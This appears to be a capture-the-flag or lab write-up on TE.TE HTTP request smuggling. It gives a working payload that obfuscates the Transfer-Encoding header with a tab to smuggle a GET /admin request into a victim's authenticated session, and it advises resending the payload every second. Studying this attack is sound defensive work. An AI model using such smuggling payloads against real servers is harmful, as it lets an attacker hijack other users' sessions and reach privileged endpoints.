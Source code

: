 
### Exploitation

#### Objective:

Force an authenticated user (e.g., admin) to trigger a backend request like:

```http
GET /admin?reveal_flag=1 HTTP/1.1
```

#### Exploitation Payload:

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 46
Transfer-Encoding:	chunked  # Horizontal tab or vertical tab

0

GET /admin?reveal_flag=1 HTTP/1.1
Dummy:
```

#### Victim Request:

```http
GET / HTTP/1.1
Host: target.site
Cookie: session=<user_session>
```

---

### Why It Works

- The **proxy fails to recognize the obfuscated `Transfer-Encoding` header**, falling back to `Content-Length`.
    
- The **backend honors the `Transfer-Encoding`**, stopping at `0\r\n\r\n`.
    
- Remaining bytes (`GET /admin...`) are treated as the start of a new request, **smuggled into the victim's session**.
    

---

### Timing Considerations

- TE.TE exploitation is often **time-sensitive**.
    
- You may need to **send the payload repeatedly (e.g., every 1 second)** until the target user triggers the backend.
    

---
